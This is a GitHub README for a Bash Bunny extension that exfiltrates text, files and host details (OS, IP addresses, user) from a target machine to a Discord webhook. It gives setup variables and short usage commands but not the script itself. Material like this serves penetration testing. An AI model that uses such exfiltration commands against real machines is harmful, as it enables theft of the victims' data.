 <div align="center">

# Discord Exfiltration
**This bashbunny extension provide exfiltration of text and files through discord webhook**

![Bash](https://img.shields.io/badge/Shell_Script-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)
![Quack](https://img.shields.io/badge/Ducky_Script-121011?style=for-the-badge&logo=duck&logoColor=white)

![OSX](https://img.shields.io/badge/OSX-FFFFFF?style=for-the-badge&logo=apple&logoColor=black)
![Windows](https://img.shields.io/badge/Windows-357EC7?style=for-the-badge&logo=windows&logoColor=white)
![Linux](https://img.shields.io/badge/Linux-eab838?style=for-the-badge&logo=linux&logoColor=white)

[Documentation](#documentation) • [Changelog](#changelog) • [Contributing](#contributing) • [License](#license)  . [Support](#support)

</div>

<img width="1000" alt="demoGif" src="https://raw.githubusercontent.com/quentinlamamy/bashbunny/main/img/discordExfiltration.gif"/>

# Documentation
> This extension need a terminal opened on target side

>To use this extension, you need to create a webhook on discord and get the webhook id and token
During your setup steps, you need to set the DISCORD_WEBHOOK_ID and DISCORD_WEBHOOK_TOKEN variables

```bash
DISCORD_WEBHOOK_ID="<DISCORD_WEBHOOK_ID>"
DISCORD_WEBHOOK_TOKEN="<DISCORD_WEBHOOK_TOKEN>"
```

### DISCORD INIT

Initialize the exfiltration session by posting an embed message on discord with host information
This command need ```$BB_HOST_OS, $BB_HOST_IP_V4, $BB_HOST_IP_V6, BB_HOST_IP_USER``` variables to be set (Set by default if you use my OSX extension)

## DISCORD SEND MSG

Send a message to discord via webhook

```bash
DISCORD SEND MSG $yourMessage
```

## DISCORD SEND FILE

Send a file to discord via webhook
```bash
DISCORD SEND FILE $yourFilePath
```

# Changelog
v1.0 : 
* :tada: Release on 2023/07/31

# Contributing
A bug ? An idea of feature ? [Fill an issue on github](https://github.com/quentinlamamy/bashbunny/issues)

# License
<p xmlns:cc="http://creativecommons.org/ns#" xmlns:dct="http://purl.org/dc/terms/"><a property="dct:title" rel="cc:attributionURL" href="https://github.com/quentinlamamy/bashbunny/blob/main/extensions/discord/discord.sh">Bashbunny discord extension</a> by <a rel="cc:attributionURL dct:creator" property="cc:attributionName" href="https://github.com/quentinlamamy">Quentin Lamamy</a> is licensed under <a href="http://creativecommons.org/licenses/by-nc-sa/4.0/?ref=chooser-v1" target="_blank" rel="license noopener noreferrer" style="display:inline-block;">CC BY-NC-SA 4.0<img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/cc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/by.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/nc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/sa.svg?ref=chooser-v1"></a></p>

# Support
<a href="https://www.buymeacoffee.com/quentinlamamy" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
